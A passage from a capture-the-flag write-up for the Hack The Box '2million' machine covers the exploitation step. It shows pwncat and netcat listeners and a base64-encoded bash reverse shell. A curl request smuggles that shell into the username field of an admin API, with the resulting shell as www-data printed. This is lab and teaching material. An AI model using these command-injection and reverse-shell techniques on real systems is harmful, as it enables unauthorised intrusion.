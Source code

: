 ## Exploitation

Now that we can execute simple commands via the endpoint, we can try to set up a reverse shell, which will allow us to interact properly with the target machine.

Setting up the ***pwncat*** listener (pwncat allows us to get a much more functional reverse shell than netcat):

```bash
pwncat -lp 4444
[18:28:29] Welcome to pwncat 🐈! __main__.py:164
bound to 0.0.0.0:4444 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
```

Or with **netcat**:

```bash
nc -lnvp
```

To maximize our chances of executing our reverse shell on the target machine, we can encode our payload (the executable part of the attack) for several reasons: bypassing filters/WAF, avoiding corruption (special characters), hiding the payload (in a way), and using a valid format.

A commonly used web encoding that we have previously seen is **base64** encoding.

To do this, we can use the following command:

```bash
echo 'bash -i >& /dev/tcp/<HTB_IP>/4444 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xOC80NDQ0IDA+JjEK
```

Okay, now let's send our request.

```bash
curl -X POST -d '{"username": "0xMR007;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xOC80NDQ0IDA+JjEK | base64 -d | bash;"}' -H "Content-Type: application/json" http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314"
```

On the listener side, we have indeed received a reverse shell connection!

```bash
pwncat -lp 4444
[18:37:52] Welcome to pwncat 🐈! __main__.py:164
[18:37:59] received connection from 10.129.159.192:42702 bind.py:84
[18:38:00] 10.129.159.192:42702: registered new host w/ db manager.py:957
(local) pwncat$ # CTRL + D to interact with the target machine
(remote) www-data@2million:/var/www/html$
```

## Post-Exploitation

We now have access to the target machine via reverse shell. Perfect.

## Q9 - .env File
